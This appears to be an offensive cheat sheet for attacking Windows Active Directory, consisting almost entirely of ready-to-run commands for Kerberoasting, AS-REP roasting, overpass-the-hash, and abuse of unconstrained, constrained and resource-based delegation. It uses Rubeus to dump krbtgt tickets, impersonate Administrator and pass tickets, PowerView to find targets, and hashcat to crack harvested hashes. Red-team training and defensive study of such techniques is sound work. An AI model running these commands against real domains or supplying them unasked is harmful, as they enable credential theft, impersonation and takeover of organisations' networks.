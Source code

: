 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:insomnia.io
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe asreproast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:insomnia.io
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:John /rc4:<>
Rubeus ptt /ticket:<>


```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be /nowrap
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:John /msdsspn:cifs/FS01.insomnia.io /ticket: /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Resource-based Constrained Delegation

```
Import-Module .\ADModule-master\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ADModule-master\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

Set-ADComputer -Identity Targeted-Machine -PrincipalsAllowedToDelegateToAccount Compromised-Machine$ -Verbose
Set-ADComputer -Identity FS01 -PrincipalsAllowedToDelegateToAccount john.insomnia$ -Verbose
Rubeus.exe s4u /user:john.insomnia$ /aes256:<AES256 Key> /msdsspn:time/John-PC$ /impersonateuser:Administrator /ptt
rubeus.exe  ptt /ticket:<>

```

